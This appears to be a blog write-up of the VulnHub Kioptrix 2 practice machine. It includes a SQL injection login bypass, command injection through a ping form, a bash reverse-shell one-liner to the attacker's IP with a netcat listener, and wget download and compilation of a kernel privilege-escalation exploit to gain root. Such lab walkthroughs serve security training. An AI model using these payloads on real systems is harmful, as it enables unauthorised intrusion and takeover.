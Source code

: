```yaml
---
layout: post
title: "Kioptrix 2"
date: 2020-09-18 14:23:00 -0600
categories: VulnHub OSCP
tags: VulnHub Kioptrix sqli
---
```


Same as Kioptrix 1, this is an entry level box from VulnHub, you can download it from [here](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/#download).

## Enumeration

Again we follow the same pattern as the Kioptrix 1 and run AutoRecon against the box once it is booted up and on the network. AutoRecon showed similar results to the first Kioptrix machine, going through the Nikto scans I didn't really see anything of interest. The website on port 80 happened to be hosting a login screen though I decided to manually take a poke.

## SQL Injection

Most login pages are backed by a database of some type so I decided to try poking at some SQL Injection. Turns out the login page was susceptible to a SQLI and I was able to gain access to the protected pages with a simple `' or 1=1#'

![sqli.png](/assets/images/af04e7308718422b9a38da019a8a5b65.png)

## Internal Enumeration

Once we got to the internal page there was a form there to "ping a machine on the network", entering the loopback we get output that looks exactly like the ping terminal utility. This means they are probably calling shell commands directly from the web interface and we can try to get command injection.

![ping.png](/assets/images/0ad2948625e5434188cef9ef36b593c3.png)

We can try testing command injection with either a ';' or '&&'. The ';' means to perform an additional command after the first command and '&&' means to perform an additional command if the first one succeeds. So let's trying running a simple command after the ping command.

![whoami.png](/assets/images/d3086b5184a94a34b30f0e7a91767b71.png)

We can see from the screenshot that the whoami command ran after the ping command and we are running as the apache user. Let's use our ability to chain commands to get a shell on the machine. We can use the following bash command to get a shell back '127.0.0.1; bash -i >& /dev/tcp/192.168.1.209/1122 0>&1', but first we need to open a listener on our Kali machine with 'nc -nvlp 1122'. Once we have our listener and we inject our command from above and send it, it will look like the command hung but if we check our nc command we will see that we have a terminal.

![hostname.png](/assets/images/f1780a654f4c467f81614e99224de429.png)

## Host Enumeration

Doing some quick enumeration on the host, we can see what our current kernel and distro are by running 'uname -r' and 'cat /etc/\*-release'.

![version.png](/assets/images/5864eca3d42943a6a859756ac8710a03.png)

From this we can see that we are running kernel 2.6.9-55.EL on CentOS 4.5, we can feed this information into SearchSploit and see if we can find anything. I usually grep for Priv in my SearchSploit searches to narrow it down even more, if we search for 'Linux Kernel CentOS' we get the following results back.

![searchsploit.png](/assets/images/eb260591535045d6893385b7b3544733.png)

We can see that this machine appears to be vulnerable to the sock_sendpage() exploit which is fairly common to see on older machines. This exploit is provided to us as raw C code so we will need to compile it before we can use it. First we transfer it to our working directory with 'searchsploit -m 9545', this will copy the code for that exploit to our current working directory. Once we have it there we can start a python HTTP server to get the file onto our target machine, we can do that with 'python -m SimpleHTTPServer 8080'.

Once the python server is running we can download it onto our target with 'wget http://192.168.1.209:8080/9545.c'. This will download the exploit code through our Python web server. Then we can compile it with 'gcc -o exploit 9545.c'. This will give us our compiled code that we can add the execute attribute to with 'chmod +x exploit' and run with ''./exploit'.

![root.png](/assets/images/c636303ec26f417e8a5f90f434246f4a.png)

Quite a bit to take in in that screenshot but we can see us switching to the /tmp directory so we are somewhere writable, downloading our exploit code, compiling it and running it. Running the exploit in this case is a success and we can see that we are now the root user.
